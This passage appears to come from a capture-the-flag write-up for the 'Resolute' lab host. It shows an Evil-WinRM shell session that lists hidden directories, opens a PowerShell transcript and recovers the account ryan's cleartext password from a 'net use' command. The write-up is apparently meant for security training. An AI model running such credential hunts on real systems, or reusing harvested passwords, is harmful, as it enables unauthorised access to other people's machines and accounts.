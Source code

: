 <figure><img src="../../../.gitbook/assets/resolute_ryan_dnsadmins.png" alt=""><figcaption><p>Figure 2: The user RYAN is a member of DNSADMINS group.</p></figcaption></figure>

Unfortunately, we neither have a way to get `SYSTEM` access on the `RESOLUTE` host or compromise the `ryan` account. By enumerating the host a hidden directory is found that contains `ryan`'s cleartext password!

{% code overflow="wrap" %}
```bash
# list hidden files
*Evil-WinRM* PS C:\> dir -force

    Directory: C:\

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
<SNIP>
d--h--        12/3/2019   6:32 AM                PSTranscripts
<SNIP

*Evil-WinRM* PS C:\PSTranscripts> dir -force

    Directory: C:\PSTranscripts

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d--h--        12/3/2019   6:45 AM                20191203

*Evil-WinRM* PS C:\PSTranscripts> cd 20191203
*Evil-WinRM* PS C:\PSTranscripts\20191203> dir -force

    Directory: C:\PSTranscripts\20191203

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-arh--        12/3/2019   6:45 AM           3732 PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt

*Evil-WinRM* PS C:\PSTranscripts\20191203> type PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
<SNIP>
+ cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
```